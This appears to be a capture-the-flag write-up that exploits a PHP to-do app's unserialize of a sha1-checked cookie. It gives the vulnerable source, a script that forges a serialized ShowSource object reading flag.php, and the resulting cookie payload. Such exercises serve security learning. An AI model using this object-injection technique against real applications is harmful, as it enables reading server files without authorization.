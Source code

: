 # To Do List

In the given source you can see they are using `unserialize` method in php which we can exploit

```php
<?php

Class ShowSource{
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}

if(isset($_GET['source'])){
    $s = new ShowSource();
    $s->source = __FILE__;
    echo $s;
    exit;
}

$todos = [];

if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 40);
    $m = substr($c, 40);
    if(sha1($m) === $h){
        $todos = unserialize($m);
    }
}

if(isset($_POST['text'])){
    $todo = $_POST['text'];
    $todos[] = $todo;
    $m = serialize($todos);
    $h = sha1($m);
    setcookie('todos', $h.$m);
    header('Location: '.$_SERVER['REQUEST_URI']);
    exit;
}
?>
```

I wrote this php code to exploit the `unserialize`

```php
<?php
Class ShowSource
{
    public $source = "flag.php";
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}

$s = new ShowSource();
$serialized = serialize([$s]);
$payload = sha1($serialized).$serialized;

echo $payload."\n";
echo urlencode($payload)."\n";

?>
```

After running the code The output is

```
db2a103dd4cc5d8271a28152d8f3de49379d9ad8a:1:{i:0;O:10:"ShowSource":1:{s:6:"source";s:8:"flag.php";}}
db2a103dd4cc5d8271a28152d8f3de49379d9ad8a%3A1%3A%7Bi%3A0%3BO%3A10%3A%22ShowSource%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

As you can see it is storing all the todo list items in a todos cookie so now we just change the cookie to our urlencoded payload and get the flag

![payload](payload.png)

![flag](flag.png)
